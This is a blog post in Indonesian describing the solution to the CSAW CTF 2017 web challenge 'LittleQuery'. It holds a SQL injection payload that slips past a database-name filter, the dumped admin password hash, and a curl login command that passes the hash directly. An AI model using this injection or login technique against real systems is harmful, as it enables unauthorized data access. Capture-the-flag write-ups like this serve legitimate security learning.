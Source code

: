 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2017-09-18
date: 2017-09-18
title: 'CSAW CTF 2017: LittleQuery - 200'
tags: [csaw2017,Web Exploitation]
mathjax: false
imagefeature: 
description: Writeup CSAW 2017 LittleQuery - 200
category: CTF
chart: null
---
```



## Problems

```
LittleQuery
I've got a new website for BIG DATA analytics!

http://littlequery.chal.csaw.io
```


## POC

Di source code pada halaman index kita bisa menemukan ada source yang di comment

```html

<!--
<div class="col-md-4">
    <h2>For Developers</h2>
    <p>Check out our <a href="/api/db_explore.php">API</a></p>
</div>
-->
```


kita bisa melakukan explore terhadap database mereka menggunakan api yang tersedia,
ada 2 mode untuk mengexplor databasenya yaitu `mode={schema|preview}` schema untuk melihat schema dari
table atau database.

so kita gunakan schema `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema` untuk melakukan
list available databases ditemukan ada database namanya `littlequery`, kemudian list table apa saja yang 
ada pada database littlequery `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery`
so kita dapat ada table `user`

```javascript

{
    tables: [
        "user"
    ]
}
```

kemudian untuk melakukan list kolom pada table user gunakan `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery&table=user`
dan di dapatkan

```javascript

{
    columns: {
        uid: "int(11)",
        username: "varchar(128)",
        password: "varchar(40)"
    }
}
```

untuk melakukan dump datanya kita bisa gunakan mode preview ke `http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery&table=user`
tapi ternyata ada filter yang melarang untuk melakukan preview terhadap database `littlequery`

setelah mencoba menlakukan injek terhadap parameter db dan table kita bisa memanipulasi parameter db sehingga
tidak match dengan == "littlequery" kita bisa menggunakan # sebagai comment

illustrasi kodingan yang digunakan adalah sebagai berikut

```php

$db = addslashes($_GET['db']);
$table = addslashes($_GET['table']);

if($db == "littlequery"){
    die("Deny");
}

$query = "SELECT * from `".$db."`.".$table."`";
```

kita bisa melakukan bypass dengan menggunakan payload sebagai berikut:

```
http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user`%23&table=foobar`
```

$query akan jadi seperti berikut 

```php

SELECT * from `littlequery`.`user`#`.`foobar`

//query yang tereksekusi adalah => SELECT * from `littlequery`.`user`

$db = "littlequery`.`user`#" // jadi kita gak kena deny lagi
```

didapatkan user dan password yang di hash 

```javascript

[
    {
        uid: "1",
        username: "admin",
        password: "5896e92d38ee883cc09ad6f88df4934f6b074cf8"
    }
]
```

kita tidak harus mencari plain-text dari SHA-1 tersebut karena website tersebut menerima login dengan
hashed password bukan dengan plaintext password diketahui dari script yang ada di login.js

```javascript

$(".form-signin").submit(function () {
    var $password = $(this).find("input[type=password]");
    $password.val(CryptoJS.SHA1($password.val()).toString());
});
```

kita bisa kirim POST data dengan curl `curl -X POST http://littlequery.chal.csaw.io/login.php --data "username=admin&password=5896e92d38ee883cc09ad6f88df4934f6b074cf8" -v`
ambil cookie yang di kirimkan response `Set-Cookie: PHPSESSID=6cidmmh[...]cd63qr9nhgb7; path=/` kemudian
set cookie ke browser kalian untuk berpindah ke state login dan bisa akses ke `/query.php`


di temukan flag `flag{mayb3_1ts_t1m3_4_real_real_escape_string?}`

![Flag](https://cdn.pbrd.co/images/GKSIR6m.png)